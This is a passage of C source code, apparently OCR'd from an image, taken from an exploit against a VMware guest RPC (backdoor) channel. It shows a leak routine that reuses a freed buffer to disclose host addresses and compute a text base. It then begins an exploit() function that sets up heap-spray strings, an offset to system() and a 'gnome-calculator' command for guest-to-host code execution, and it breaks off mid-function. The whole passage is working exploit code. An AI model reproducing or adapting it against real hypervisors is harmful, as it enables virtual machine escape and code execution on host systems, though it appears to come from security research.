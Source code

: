 ```
    if(!res)`{`
        printf("fail to recv finish2\n");
        return;
    `}`

    printf("Trying to reuse the buffer as a struct, which we can leak..\n");
    getchar();
    run_cmd(s5);
    printf("Should be done.Check the buffer\n");
    getchar();

    //Now the output buffer of chan[1] is used as a struct, which contains many addresses
    channel_recv_reply_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,&amp;len,&amp;res);
    if(!res)`{`
        printf("fail to recv data len\n");
        return;
    `}`


    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i&lt;len+0x10;i+=4)`{`
        channel_recv_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,i,data,&amp;res);
    `}`
    printf("recv data:\n");
    for(i=0;i&lt;len;i+=8)`{`
        printf("recv data:%lx\n",*(long long *)&amp;data[i]);
    `}`
    text = (*(uint64_t *)data)-0xf818d0;
    channel_recv_finish(chan[0].cookie1,chan[0].cookie2,chan[0].num,&amp;res);
    printf("Leak Success\n");
`}`

void exploit()`{`
    //the exploit step is almost the same as the leak ones
    struct channel chan[10];
    int res=0;
    int len,i;
    char *data;
    char *s1 = "info-set guestinfo.b BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s2 = "info-get guestinfo.b";
    char *s3 = "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s4 = "gnome-calculator\x00";
    uint64_t pay1 =text+0xFE95B8; 
    uint64_t pay2 =text+0xECFE0; //system
    uint64_t pay3 =text+0xFE95C8;
    char *pay4 = "gnome-calculator\x00";
    //run_cmd(s1);
    channel_open(&amp;chan[0].cookie1,&amp;chan[0].cookie2,&amp;chan[0].num,&amp;res);
    if(!res)`{`
        printf("fail to open channel!\n");
        return;
    `}`
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s1),&amp;res);
    if(!res)`{`
        printf("fail to set len\n");
        return;
```